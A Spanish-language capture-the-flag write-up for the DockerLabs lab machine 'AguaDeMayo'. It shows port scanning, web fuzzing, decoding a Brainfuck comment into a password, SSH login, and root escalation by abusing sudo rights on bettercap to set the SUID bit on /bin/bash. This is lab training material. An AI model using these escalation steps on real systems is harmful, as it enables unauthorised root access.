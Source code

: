 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "AguaDeMayo".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh aguademayo.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.17.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene dos puertos abiertos: el 22 (SSH) y el 80 (HTTP)
```
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
```
Como no tenemos ni usuario ni contraseña aun para atacar el puerto 22, vamos a probar poniendo la direccion IP en el navegador.

Sin embargo, aparece la tipica pagina de Apache, por lo que vamos a pulsar "CTRL + U" para ver si hay algo interesante en el codigo fuente y, tras bajar y bajar, vemos un "texto" comentado:
```
<!--
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
-->
```
Despues de buscar por internet, parece ser que es un tipo de codigo que pertenece a "Brainfuck", por lo que vamos a buscar algun "decodificador" en Google.

En mi caso, esta pagina: "https://www.dcode.fr/brainfuck-language" donde introducimos el texto anterior para ver que obtenemos y el resultado es este:
```
bebeaguaqueessano
```
Vale, ya tenemos algo que no sabemos si es un usuario o una contraseña, por lo que vamos a hacer algo de  FUZZING WEB con "gobuster" para ver si conseguimos algo mas de informacion:
```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x txt,php,asp,aspx,jsp,html -t 20
```
Vemos que encuentra un directorio llamado "/images". El resto no parece que sean relevantes:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
/index.html           (Status: 200) [Size: 11142]
/.html                (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1453501 / 1453508 (100.00%)
===============================================================
Finished
===============================================================
```
Accedo entonces, desde el navegador y vemos que hay un archivo que se llama: "agua_ssh.jpg" por lo que procederemos a descargarlo con "wget", por ejemplo:
```
wget http://172.17.0.2/images/agua_ssh.jpg

--2024-08-04 01:43:44--  http://172.17.0.2/images/agua_ssh.jpg
Conectando con 172.17.0.2:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 50517 (49K) [image/jpeg]
Grabando a: «agua_ssh.jpg»

agua_ssh.jpg                 100%[===============================================>]  49,33K  --.-KB/s    en 0s    

2024-08-04 01:43:44 (2,11 GB/s) - «agua_ssh.jpg» guardado [50517/50517]
```
Una vez descargada, la abrimos y vemos que solo es una imagen sin relevancia, por lo que probaremos primero con la herramienta "exiftool" a ver si hay algo en los metadatos:
```
exiftool agua_ssh.jpg


ExifTool Version Number         : 12.76
File Name                       : agua_ssh.jpg
Directory                       : .
File Size                       : 51 kB
File Modification Date/Time     : 2024:05:14 19:43:34+02:00
File Access Date/Time           : 2024:08:04 01:45:31+02:00
File Inode Change Date/Time     : 2024:08:04 01:43:44+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 640
Image Height                    : 427
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 640x427
Megapixels                      : 0.273
```
Pero no parece que haya nada. Es momento de probar si hay algo oculto mediante esteganografia con "steghide":
```
steghide extract -sf agua_ssh.jpg

Anotar salvoconducto: 
steghide: ¡no pude extraer ningún dato con ese salvoconducto!
```
Pero tampoco encontramos nada, tal y como acabamos de ver. Asi que vamos a tirar un poco de fuerza bruta con HYDRA y vamos a ver si usando la palabra "bebeaguaqueessano" podemos conseguir bien un usuario o bien una contraseña.

Tras perder MUCHO tiempo y no obtener nada, he tenido que mirar una guia y resulta que el usuario era "agua". WTF ^_^U!!

En fin, volviendo a la maquina y ya teniendo el usuario y la contraseña, accedemos via SSH:
```
ssh agua@172.17.0.2
```
Tras poner "yes" e introducir despues la contraseña, ya estariamos dentro, por lo que empezariamos probando escaladas de privilegios tipicas, empezando por "sudo -l":
```
agua@224d3419cff1:~$ sudo -l
Matching Defaults entries for agua on 224d3419cff1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User agua may run the following commands on 224d3419cff1:
    (root) NOPASSWD: /usr/bin/bettercap
    
agua@224d3419cff1:~$ 
```
Si ejecutamos el binario, obtenemos una especie de "shell":
```
sudo -u root /usr/bin/bettercap

bettercap v2.32.0 (built for linux amd64 with go1.19.8) [type 'help' for a list of commands]

172.17.0.0/16 > 172.17.0.2  » [00:20:52] [sys.log] [war] exec: "ip": executable file not found in $PATH
172.17.0.0/16 > 172.17.0.2  »
```
Como no se usarlo, ejecuto el comando "help" tal y como nos dicen arriba, para obtener informacion y comandos a ejecutar:
```
172.17.0.0/16 > 172.17.0.2  » help

help MODULE : List available commands or show module specific help if no module name is provided.

active : Show information about active modules.

quit : Close the session and exit.

sleep SECONDS : Sleep for the given amount of seconds.

get NAME : Get the value of variable NAME, use * alone for all, or NAME* as a wildcard.

set NAME VALUE : Set the VALUE of variable NAME.

read VARIABLE PROMPT : Show a PROMPT to ask the user for input that will be saved inside VARIABLE.

clear : Clear the screen.

include CAPLET : Load and run this caplet in the current session.

! COMMAND : Execute a shell command and print its output. <=== INTERESANTE !!

alias MAC NAME : Assign an alias to a given endpoint given its MAC address.
```
Si nos fijamos hay un comando que es "!" que nos permite ejecutar una "shell command", por lo que vamos a utilizar esta opcion:
```
172.17.0.0/16 > 172.17.0.2  » ! chmod u+s /bin/bash
```
Una vez ejecutado, salimos y ejecutamos el comando "bash -p", lo cual, tal y como se puede ver abajo, nos da un prompt con el usuario "root":
```
172.17.0.0/16 > 172.17.0.2  » exit

open /proc/sys/net/ipv4/ip_forward: read-only file systemagua@224d3419cff1:~$ bash -p

bash-5.2# whoami
root

bash-5.2# 
```
Y listo, la maquina estaria ya hecha.
